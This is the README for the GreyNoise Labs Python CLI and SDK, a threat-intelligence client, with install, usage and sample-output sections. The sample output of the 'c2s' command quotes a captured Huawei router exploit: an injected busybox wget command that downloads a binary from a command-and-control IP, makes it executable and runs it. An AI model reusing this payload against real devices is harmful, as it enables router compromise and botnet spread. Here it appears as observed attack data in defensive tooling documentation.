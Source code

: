 ==========================================
Python GreyNoise Labs GraphQL Client & SDK
==========================================

.. image:: https://img.shields.io/badge/License-MIT-yellow.svg
    :target: https://opensource.org/licenses/MIT

This is an abstract python client and SDK library generated from the `GreyNoise Labs API`_ service.

.. _GreyNoise Labs API: https://api.labs.greynoise.io/

Documentation
=============
Documentation is available here: `Documentation <https://api.labs.greynoise.io/1/docs/>_.`

CLI Install
===========
1. Run ``python3 -m pip install greynoiselabs``
2. Run ``greynoiselabs init`` to authenticate with Auth0 and save credentials for future use.
3. (Optional) It is recommended to install `jq` to make the CLI output more readable. 
   You can install it with ``brew install jq`` on macOS or ``apt-get install jq`` on Ubuntu.

..  code-block:: bash

    You are not authenticated, would you like to do this now? [y/N]: y
    Device code successful
    1. Please browse to:  https://greynoise2.auth0.com/activate?user_code=ABCD-EFGH
    2. Verify the code matches:  ABCD-EFGH
    Please click the link above and follow the instructions...
    Please click the link above and follow the instructions...
    Please click the link above and follow the instructions...
    Token saved to /Users/user/Library/Application Support/greynoiselabs/0.1.19/token.json.
    Authentication successful
    Aborted.


CLI Quick Start
===============
1. To show usage just run ``greynoiselabs`` and you should see this output.
..  code-block:: bash

    Usage: greynoiselabs [OPTIONS] COMMAND [ARGS]...

    ╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
    │ --install-completion          Install completion for the current shell.                                                      │
    │ --show-completion             Show completion for the current shell, to copy it or customize the installation.               │
    │ --help                        Show this message and exit.                                                                    │
    ╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
    ╭─ Commands ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
    │ c2s          Return the top 1% of C2s ranked by pervasiveness. This data may be up to 4.5 hours old but covers the previous  │
    │              24 hours.                                                                                                       │
    │ gengnql      Translate text into usable GreyNoise GNQL queries.                                                              │
    │ init         Initialize the client by authenticating with Auth0 and saving the token to a file.                              │
    │ knocks       Return the top 1% of Knock results by most recently seen. A Knock represents an IP observed by GreyNoise that   │
    │              we have scanned back. This data may be up to 12 hours old. This endpoint supports filtering by a single IP.     │
    │ noise-rank   Return the top 1% of ranked IPs by noise score over the previous 7 days of traffic. This also returns the       │
    │              pervasiveness and diversity scores. This endpoint supports filtering by a single IP.                            │
    │ popular-ips  Return the top 1% of IPs searched in GreyNoise. These results are ordered by the number of users observed over  │
    │              the last 7 days. This data may be up to 24 hours old. This also returns the user and request counts. This also  │
    │              returns a boolean if this IP was observed by GreyNoise sensors.                                                 │
    │ version      Return the version of the GreyNoise Labs CLI.                                                                   │
    ╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯

1. Run ``greynoiselabs knocks --help`` to show command specific help like below.
..  code-block:: bash

    Usage: greynoiselabs knocks [OPTIONS] [IP]                                                                             
                                                                                                                            
    Return the top 1% of Knock results by most recently seen. A Knock represents an IP observed by GreyNoise that we have  
    scanned back. This data may be up to 12 hours old. This endpoint supports filtering by a single IP.                    
                                                                                                                            
    ╭─ Arguments ──────────────────────────────────────────────────────────────────────────────────────────────────────────╮
    │   ip      [IP]  Specify the IP to retrieve.                                                                          │
    ╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
    ╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
    │ --output  -o      TEXT  JSON lines output file location.                                                             │
    │ --config  -c      TEXT  Output directory for CLI config.                                                             │
    │                         [default: /Users/matt/Library/Application Support/greynoiselabs/0.1.19]                      │
    │ --help                  Show this message and exit.                                                                  │
    ╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯

1. Run ``greynoiselabs c2s | jq``

..  code-block:: json

    {
      "source_ip": "1.2.3.4",
      "hits": 2024,
      "pervasiveness": 10,
      "c2_ips": [
        "5.6.7.8"
      ],
      "c2_domains": [],
      "payload": "POST /ctrlt/DeviceUpgrade_1 HTTP/1.1\r\nContent-Length: 430\r\nConnection: keep-alive\r\nAccept: */*\r\nAuthorization: Digest username=\"dslf-config\", realm=\"HuaweiHomeGateway\", nonce=\"88645cefb1f9ede0e336e3569d75ee30\", uri=\"/ctrlt/DeviceUpgrade_1\", response=\"3612f843a42db38f48f59d2a3597e19c\", algorithm=\"MD5\", qop=\"auth\", nc=00000001, cnonce=\"248d1a2560100669\"\r\n\r\n<?xml version=\"1.0\" ?><s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\"><s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\"><NewStatusURL>$(/bin/busybox wget -g 5.6.7.8 -l /tmp/negro -r /.oKA31/bok.mips; /bin/busybox chmod 777 /tmp/negro; /tmp/negro hw.selfrep)</NewStatusURL><NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL></u:Upgrade></s:Body></s:Envelope>\r\n\r\n"
    }

1. Run ``greynoiselabs knocks | jq``

..  code-block:: json

    {
      "source_ip": "36.70.32.117",
      "headers": "{\"Content-Type\":[\"text/html\"],\"Expires\":[\"0\"],\"Server\":[\"uc-httpd 1.0.0\"]}",
      "apps": "[{\"app_name\":\"Apache HTTP Server\",\"version\":\"\"}]",
      "emails": [],
      "favicon_mmh3_128": "Sgqu+Vngs9hrQOzD8luitA==",
      "favicon_mmh3_32": -533084183,
      "ips": [
        "10.2.4.88",
        "10.2.2.88"
      ],
      "knock_port": 80,
      "jarm": "00000000000000000000000000000000000000000000000000000000000000",
      "last_seen": "2023-07-21T11:00:06Z",
      "last_crawled": "2023-07-22T00:14:27Z",
      "links": [],
      "title": "NETSurveillance WEB",
      "tor_exit": false
    }

1. Run ``greynoiselabs popular-ips | jq``

..  code-block:: json

    {
      "ip": "143.244.50.173",
      "request_count": 916,
      "users_count": 95,
      "last_requested": "2023-07-27T23:55:17Z",
      "noise": true,
      "last_seen": "2023-07-27T23:59:11Z"
    }

1. Run ``greynoiselabs noise-rank | jq``

..  code-block:: json

    {
      "ip": "167.94.138.35",
      "noise_score": 89,
      "country_pervasiveness": "very high",
      "payload_diversity": "med",
      "port_diversity": "very high",
      "request_rate": "high",
      "sensor_pervasiveness": "very high"
    }

1. Run ``greynoiselabs gengnql "Show malicious results that are targeting ukraine from russia"``
Results will differ for `gengnql` on subsequent runs as this is using an GPT prompt.

..  code-block:: bash

    classification:malicious AND metadata.country:Russia AND destination_country:Ukraine
    metadata.country:Russia AND destination_country:Ukraine AND classification:malicious
    metadata.country_code:RU AND destination_country_code:UA AND classification:malicious
    classification:malicious AND metadata.country_code:RU AND destination_country_code:UA
    destination_country:Ukraine AND metadata.country:Russia AND classification:malicious

CLI Advanced Usage
==================
Show the most popular IPs that are searched at GreyNoise but not observed by our sensors
1. ``greynoiselabs popular-ips | jq '. | select(.noise == false)' | less``

Group the ip's hitting GreyNoise sensors by their HTTP page title
2. ``greynoiselabs knocks | jq -s 'group_by(.title) | map({title: .[0].title, agg: map(.source_ip) })'``

SDK Quick Start
===============
**Install the library**:

``python3 -m pip install greynoiselabs`` or ``make install`` when in the root directory of the repository.

Example SDK Code

You can authenticate to the Labs API and obtain a copy of your token there 
or with the CLI after running ``greynoiselabs init``

..  code-block:: python

    import os
    import asyncio
    from greynoiselabs.client import Client

    client = Client("https://api.labs.greynoise.io/1/query",
                    {"Authorization": f"Bearer {os.environ['AUTH_TOKEN']}"})

    response = asyncio.run(client.top_knocks(ip="221.144.229.187"))
    print(response)

